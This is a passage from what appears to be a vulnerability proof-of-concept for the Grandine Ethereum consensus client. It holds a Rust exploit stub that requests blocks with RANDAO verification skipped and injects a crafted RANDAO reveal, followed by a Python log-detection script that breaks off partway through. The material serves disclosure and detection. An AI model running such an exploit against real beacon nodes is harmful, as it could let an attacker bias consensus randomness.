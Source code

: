 ```rust
// poc/exploit/randao_bypass_client.rs

use reqwest::Client;
use serde_json::json;

pub struct RandaoBypassExploit {
    client: Client,
    target_url: String,
}

impl RandaoBypassExploit {
    pub async fn exploit_block_production(&self, slot: u64) -> Result<(), Error> {
        // Step 1: Request block with RANDAO bypass
        let response = self.client
            .get(&format!("{}/eth/v2/validator/blocks/{}", self.target_url, slot))
            .query(&[("skip_randao_verification", "true")])
            .send()
            .await?;
        
        let mut block = response.json::<BeaconBlock>().await?;
        
        // Step 2: Inject malicious RANDAO reveal
        block.body.randao_reveal = self.generate_malicious_randao();
        
        // Step 3: Submit block (would need valid signature for full exploit)
        self.submit_block(block).await?;
        
        Ok(())
    }
    
    fn generate_malicious_randao(&self) -> BLSSignature {
        // Generate predictable RANDAO to influence randomness
        // In real exploit, this would be calculated to achieve specific outcomes
        BLSSignature::default()
    }
}
```

### Detection Script

```python
# poc/detection/detect_bypass.py

import re
import sys
from datetime import datetime

def detect_randao_bypass(log_file):
    """Detect RANDAO bypass usage in Grandine logs"""
    
    bypass_pattern = r"skip_randao_verification.*true|SkipRandaoVerification"
    suspicious_events = []
    
    with open(log_file, 'r') as f:
        for line_num, line in enumerate(f, 1):
            if re.search(bypass_pattern, line, re.IGNORECASE):
                suspicious_events.append({
                    'line': line_num,
                    'content': line.strip(),
                    'timestamp': extract_timestamp(line)
                })
    
    if suspicious_events:
```